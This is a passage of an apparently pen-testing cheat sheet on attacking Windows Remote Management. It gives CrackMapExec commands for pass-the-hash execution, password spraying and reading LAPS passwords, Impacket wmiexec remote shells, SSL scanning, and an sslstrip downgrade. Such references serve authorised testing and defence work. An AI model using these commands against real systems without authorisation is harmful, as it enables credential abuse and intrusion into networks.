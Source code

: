     ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username> -H `<ntlm_hash> -X '$PSVersionTable'
    ```
*   **Password Spraying (without brute force):** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username_wordlist> -p `<password_wordlist>' --no-bruteforce
    ```
*   **Defeating LAPS:** Using CrackMapExec when LAPS installed on the domain. If LAPS is used inside the domain, it can be hard to use CrackMapExec to execute a command on every computer on the domain. Therefore, a new core option has been added `--laps`! If you have compromised an accout that can read LAPS password you can use CrackMapExec like this. If the default administrator name is not administrator add the user after the option `--laps name`.

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username> -p `<password>' --laps
    ```

#### \[\[Impacket]]

**\[\[Impacket-WMIExec]]**

*   **Connect via WMIExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against Kerberos instead of NTLM.

    ```bash
    impacket-wmiexec <domain>/<username>:'<password>'@<target_ip>
    impacket-wmiexec -hashes LM:NT <username>@<target_ip>
    ```

#### \[\[SSLScan]]

*   **Scan Target:** Detailed analysis of an HTTPS service’s SSL/TLS configuration.

    ```bash
    sslscan <target_ip>:5986
    ```

#### \[\[SSLyze]]

*   **Scan Target:** Automated testing and reporting on the security of an HTTPS service.

    ```bash
    sslyze --regular <target_ip>:5986
    ```

#### \[\[SSLStrip Cheat Sheet]]

*   **SSL Downgrade:**

    ```bash
    sslstrip -l 5986
    ```
